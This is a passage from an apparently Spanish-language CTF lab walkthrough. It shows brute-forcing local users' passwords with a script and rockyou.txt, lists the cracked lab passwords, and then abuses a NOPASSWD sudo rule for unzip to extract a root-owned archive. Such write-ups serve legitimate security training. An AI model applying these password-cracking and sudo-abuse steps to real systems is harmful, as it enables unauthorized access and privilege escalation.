 Info:

```
[+] Contraseña encontrada para el usuario baluton:123123
```

Vemos que ha funcionado, por lo que nos cambiaremos a dicho usuario.

```shell
su baluton
```

Metemos como contraseña `123123` y veremos que seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for baluton on 3d3d44c146ca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User baluton may run the following commands on 3d3d44c146ca:
    (ALL) NOPASSWD: /usr/bin/unzip
```

Vemos que podemos ejecutar el binario `unzip` como el usuario `root`.

Pero si probamos a descubrir la contraseña del otro usuario llamado `redghost` tambien la encontraremos:

```shell
./suBruteforce.sh redghost rockyou.txt
```

Info:

```
[+] Contraseña encontrada para el usuario redghost:estrella
```

Si cambiamos a dicho usuario, tambien nos funcionara, pero no veremos nada interesante, por lo que vamos a realizar un `fuzzing` con los `2` usuario a ver que encontramos.

Pero si listamos la raiz (`/`) veremos el siguiente archivo.

```
-rw-------   1 root root  230 Jun 23 16:27 secretitosecretazo.zip
```

Vamos a descomprimirlo con el `sudo` que tenemos de `unzip` de esta forma:

```shell
sudo unzip /secretitosecretazo.zip
```

Info:

```
Archive:  /secretitosecretazo.zip
  inflating: regalitoregalazoregalin.txt
```
